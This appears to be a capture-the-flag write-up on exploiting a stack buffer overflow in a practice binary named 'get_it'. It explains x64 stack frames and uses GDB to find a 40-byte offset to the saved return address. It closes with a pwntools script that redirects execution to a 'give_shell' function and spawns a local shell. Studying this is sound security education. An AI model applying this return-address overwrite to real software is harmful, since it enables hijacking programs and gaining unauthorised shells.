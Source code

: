 
###  x64 Stack Frame Analysis**

#### **1. Function Call Mechanism**

In the x64 architecture, a standard function call involves a precise sequence of operations to ensure that control flow can be correctly returned to the caller. When a `call` instruction is executed, the address of the instruction immediately following the `call` is pushed onto the stack. This **return address** is the value that will be loaded back into the instruction pointer (`rip`) when the function finishes.

#### **2. Stack Frame Setup**

Upon entry, the called function (the "callee") typically establishes its own stack frame to manage local variables and maintain state. This is achieved through a standard function prologue:

1.  **`push rbp`**: The base pointer register (`rbp`), which currently points to the base of the *caller's* stack frame, is pushed onto the stack. This saves the caller's frame context.
2.  **`mov rbp, rsp`**: The value of the stack pointer (`rsp`) is copied into `rbp`. This establishes the new frame's base, with `rbp` now serving as a stable "anchor" for the callee's stack frame.

#### **3. Frame Pointer Offsets**

Once the `rbp` register is set for the new frame, the locations of the saved context from the caller are at fixed, predictable offsets relative to `rbp`:
-   **`rbp+0x0`**: This address holds the **saved base pointer** of the caller's stack frame.
-   **`rbp+0x8`**: This address holds the **return address** that the `call` instruction pushed onto the stack.

When the function is ready to return, its epilogue (`leave` and `ret`) uses these saved values to restore the caller's stack frame and resume execution at the correct location.

```Breakpoint 1, 0x00000000004005f1 in main ()
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
gef➤  x/g $rbp+0x8
0x7fffffffde98:    0x00007ffff7a05b97
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602670 - 0x602678  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "15935728"
```
To determine the precise offset needed to overwrite the return address, I used `gdb` for dynamic analysis. After setting a breakpoint after the `gets` call, I ran the program with a unique pattern as input. Using the `info frame` command, I identified that the saved return address was stored at memory location **`0x7fffffffde98`**. Next, by using the `search-pattern` command, I located my input string on the stack starting at address **`0x7fffffffde70`**.

With these two addresses, the offset is a simple calculation: `0x7fffffffde98` (return address) - `0x7fffffffde70` (buffer start) = `0x28`, or **40 bytes**. This confirms that the first 32 bytes of input fill the intended buffer, the next 8 bytes overwrite the saved `rbp`, and any subsequent data will overwrite the return address. Therefore, the final payload consists of 40 bytes of arbitrary padding followed by the 8-byte little-endian address of the `give_shell` function. When the `ret` instruction is executed, it will pop this malicious address into the instruction pointer, successfully diverting execution and providing a shell.
```python
from pwn import *

target = process("./get_it")
#gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = ""
payload += "0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address


target.sendline(payload)


target.interactive()
```
